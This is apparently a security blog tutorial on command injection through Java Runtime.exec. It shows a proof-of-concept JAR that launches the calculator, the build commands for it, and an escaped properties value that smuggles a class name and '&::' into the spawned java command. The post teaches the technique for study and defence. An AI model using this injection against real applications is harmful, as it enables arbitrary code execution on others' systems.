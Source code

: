 ```yaml
---
layout: single
title: Command Injection in Runtime.exec via Java Properties and JAR Hijacking
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.

But consider the scenario where the Java application itself is the spawned process. The following example illustrates this situation.

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();

try (FileInputStream stream = new FileInputStream("app.properties")) {
    properties.load(stream);
}

String options = properties.getProperty("options", "");
String command = String.format("javaw -cp ".;./dependencies/*\" %s com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

To exploit this code, it's necessary to craft your own JAR file and use it to insert the classpath as a parameter into the Java process.

Store the following example into a file named `Calc.java`, ensuring to include the package declaration at the start of the file.

```
package command.injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code using the -d . option, which instructs the compiler to generate the specified directory structure.

```
javac -d . Calc.java
```

When creating a .jar file, you should use the `cvfeP` option set to guide the packaging process.

```
jar cvfeP calc.jar command.injection.Calc -C . command/injection/
```

This ensures the preservation of the package structure (P), sets the entry point for meaningful manifest information (e), names the file (f), creates an archive (c), and enables verbose output (v). The key options to focus on are P for maintaining the package structure and e for specifying the entry point. Then, append the command with the jar's name (test.jar) and its entry point. Conclude by using -C . <packagename>/ to collect class files from the designated folder while maintaining the folder's structure.

Open the `calc.jar` file in a zip program to ensure that it has the following directory structure:

```
command/
├─ injection/
│  ├─ Calc.class
META-INF/
├─ MANIFEST.MF
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: command.injection.Calc
```

When manually editing your manifest file, it's important to retain the newline at the end; otherwise, Java will not recognize the manifest correctly.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the configuration file (`application.properties`) of the application:

```
options=command.injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that instead of the expected program, the calculator app will launch.

Below is the value that was fed into the exec function.

```
javaw -cp ".;./dependencies/*\" command.injection.Calc &:: com.example.main.Example
```

## References

- [Command injection in Java](https://wiki.owasp.org/index.php/Command_injection_in_Java)

